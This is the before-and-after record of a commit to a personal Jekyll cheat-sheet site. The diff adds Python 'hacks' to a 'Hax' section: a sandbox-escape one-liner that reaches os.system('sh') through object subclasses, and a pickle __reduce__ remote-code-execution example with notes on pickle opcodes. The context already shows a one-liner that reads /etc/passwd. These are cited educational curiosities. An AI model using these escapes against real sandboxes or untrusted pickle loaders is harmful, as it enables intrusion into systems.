

Before and after one commit to betaveros/cs, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 3716 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
python hacks

```diff
--- a/_includes/python.html
+++ b/_includes/python.html
@@ -186,6 +186,8 @@ password = getpass.getpass()</pre>
 <pre>import time
 time.sleep(0.5) # 0.5 seconds</pre>
 <h3>Hax</h3>
+<pre>[t for t in().__class__.__base__.__subclasses__()if'Sized'==t.__name__][0].__len__.__globals__['__builtins__']['__import__']('os').system('sh')</pre>
+<p>(most modern variation, <a href="https://nedbatchelder.com/blog/201302/finding_python_3_builtins.html">Eryksun via Ned Batchelder</a>)</p>
 <pre>[t for t in (1).__class__.__bases__[-1].__subclasses__() if t.__name__ == 'file'][0]('/etc/passwd').read()</pre>
 <p>(from <a href="http://eev.ee/blog/2012/03/24/on-principle/"><cite>On principle</cite> (eevee)</a>)</p>
 <p>Want a shell instead?</p>
@@ -199,6 +201,18 @@ time.sleep(0.5) # 0.5 seconds</pre>
 <pre>type(lambda: 0)(type((lambda: 0).__code__)(
     1,0,1,1,67,b'|\0\202\1\0',(),(),('x',),'','',1,b''),{}
 )(Exception())</pre>
+<pre>
+import pickle
+class RCE:
+    def __reduce__(self): return os.system, ("echo 'hi'",)
+print(pickle.loads(pickle.dumps(RCE())))
+</pre>
+<a href="https://docs.python.org/3/library/pickletools.html">pickletools</a> (go to source). The most interesting opcodes are:
+<ul>
+	<li><code>R</code> = REDUCE: take a callable and a tuple of args from stack, call it</li>
+	<li><code>c</code> = GLOBAL: take two strings as argument (not from stack), <code>self.find_class(modname, name)</code> &approx; <code>getattr(sys.modules[modname], name)</code> with compatiblity shims and (if protocol &ge; 4) splitting <code>name</code> by <code>.</code></li>
+	<li><code>\x93</code> = STACK_GLOBAL: take two strings from stack, <code>self.find_class(modname, name)</code></li>
+</ul>
 <h3>pygmentize</h3>
 <p>has complicated command line flags:</p>
 <pre>pygmentize -f html -l python -O full,style=tango -o out.html src.py</pre>
```
